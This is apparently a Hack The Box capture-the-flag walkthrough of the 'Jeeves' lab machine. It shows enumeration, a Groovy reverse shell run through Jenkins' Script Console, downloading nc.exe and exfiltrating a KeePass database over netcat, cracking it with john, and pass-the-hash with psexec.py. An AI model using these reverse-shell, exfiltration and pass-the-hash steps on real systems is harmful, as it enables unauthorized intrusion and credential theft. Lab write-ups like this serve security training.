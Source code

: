 ```yaml
---
layout: post
title: "Jeeves"
categories: HTB-Walkthrough
---
```


![jeeves](/assets/img/jeeves/jeeves1.png)

Jeeves is another box from TJNull's 'more complicated than OSCP' list of HTB retired machines.



<h3>Nmap</h3>

```
nmap -sV -Pn --min-rate 10000 -p- 10.10.10.63 |tee -a jeeves.txt
```

```
Nmap scan report for 10.10.10.63
Host is up (0.10s latency).
Not shown: 65531 filtered ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```




<hr width="300" size="10">



<h3>Web</h3>

I take a look at the website.

![web](/assets/img/jeeves/jeeves-web.png)



<h3>Gobuster</h3>
```
gobuster dir -u http://10.10.10.63/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt -t 30
```

I get a bunch of errors...perhaps fewer threads would help.

I quickly check out port 50000 via firefox and get an error page, I try gobuster there too.

```
gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt -t 30
```

I only get one hit, and as the scan continues I check out the found directory.

```
/askjeeves (Status: 302)
```

![askjeeves](/assets/img/jeeves/jeeves-askjeeves.png)


Jenkins?



<hr width="300" size="10">



<h3>Jenkins Groovy Script-Console</h3>


I check out 
```
http://10.10.10.63:50000/askjeeves/about/
```
and get the version number.

![about](/assets/img/jeeves/jeeves-about-jenkins.png)



Clicking 'Manage Jenkins' we are taken to a further list of options.
From here we can select the `Script Console`.

![manage](/assets/img/jeeves/jeeves-manage.png)

This console allows for the execution of [groovy](http://www.groovy-lang.org/) scripts on the server.

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) provides us with a 'groovy reverse-shell' script.

```java
String host="10.10.14.35";
int port=6969;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

set a netcat listener on 6969
```
nc -nlvp 6969
```

![script-console](/assets/img/jeeves/jeeves-script-console.png)

and 'run' the script.

![revshell](/assets/img/jeeves/jeeves-revshell.png)


<hr width="300" size="10">

We can grab the user flag:

```
c:\Users\kohsuke\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of c:\Users\kohsuke\Desktop

11/03/2017  11:19 PM    <DIR>          .
11/03/2017  11:19 PM    <DIR>          ..
11/03/2017  11:22 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   7,522,697,216 bytes free

c:\Users\kohsuke\Desktop>type user.txt
type user.txt
e3xxxxxxxxxxxxxxxxxxxxxxxxxxx66a
```


<hr width="300" size="10">



<h3>Privilege Escalation</h3>


Looking around Kohsuke's directory we can find a 'keypass' file in the 'Documents' folder.
I create a temporary working folder in the C: directory, upload nc.exe and get the file back to Kali.

```
mkdir c:\boo
cd c:\boo
copy c:\users\kohsuke\documents\CEH.kdbx

powershell IWR -uri http://10.10.14.35/nc.exe -outfile c:\boo\nc.exe
```

exfil via nc.exe:

On Kali.
```
nc -nlvp 8888 > CEH.kdbx
```

then on Jeeves.
```
.\nc.exe 10.10.14.35 8888 < CEH.kdbx
```

<hr width="300" size="10">



<h3>Keepass2john</h3>


I use `tee` so that I can see the output in addition to writing to file.

```
root@kali:~/HTB/vip/jeeves# keepass2john CEH.kdbx |tee hash.txt
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48

root@kali:~/HTB/vip/jeeves# john --format="keepass" --wordlist=/root/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/32 OpenSSL])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

moonshine1       (CEH)

1g 0:00:00:54 DONE (2019-08-11 16:06) 0.01834g/s 1008p/s 1008c/s 1008C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```



<hr width="300" size="10">


<h3>kpcli</h3>

We can use kpcli to access the database file.

![kpcli](/assets/img/jeeves/jeeves-kpcli.png)

The key is blanked out in red, but we can copypaste it:

```

Title: Backup stuff
Uname: ?
 Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
  URL: 
Notes: 

```


<hr width="300" size="10">




<h3>psexec.py</h3>


We've recovered an NTLM hash, we can try [Impacket's psexec.py](https://github.com/SecureAuthCorp/impacket/tree/master/examples) to see if this hash is the admin one.

```
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.10.10.63 cmd.exe
```

![psexec](/assets/img/jeeves/jeeves-psexec.png)


Now we can grab the root flag; it's hidden, but easily read.

```

c:\Users\Administrator>cd desktop
 
c:\Users\Administrator\Desktop>dir /r
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of c:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,521,914,880 bytes free

c:\Users\Administrator\Desktop>more < hm.txt:root.txt
afxxxxxxxxxxxxxxxxxxxxxxxxxxxx30

```


<hr width="300" size="10">



:)



